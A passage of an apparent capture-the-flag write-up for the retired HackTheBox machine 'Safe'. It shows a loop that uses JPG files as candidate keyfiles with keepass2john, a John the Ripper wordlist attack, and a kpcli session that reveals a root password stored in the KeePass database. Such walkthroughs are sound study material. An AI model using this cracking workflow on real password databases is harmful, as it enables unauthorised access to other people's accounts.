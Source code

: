 ```
for i in $(ls *.JPG);do keepass2john -k $i MyPasswords.kdbx > hash.txt;done;john -w=/root/wordlists/rockyou-30.txt hash.txt
```

![bullshit](/assets/img/safe/safe-bullshit.png)


###########

We can use kpcli (keepass cli) to access the database.

```
kpcli --key=IMG_0547.JPG --kdb=MyPasswords.kdbx
```

The database contains the root password.

```
root@kali:~/HTB/retired/safe/boo# kpcli --key=IMG_0547.JPG --kdb=MyPasswords.kdbx
Please provide the master password: *************************

KeePass CLI (kpcli) v3.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> ls
=== Groups ===
MyPasswords/
kpcli:/> cd MyPasswords/
kpcli:/MyPasswords> ls
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Recycle Bin/
Windows/
=== Entries ===
0. Root password                                                          
kpcli:/MyPasswords> show -f Root\ password

 Path: /MyPasswords/
Title: Root password
Uname: root
 Pass: u3v2249dl9ptv465cogl3cnpo3fyhk
  URL: 
Notes: 

kpcli:/MyPasswords> 
```
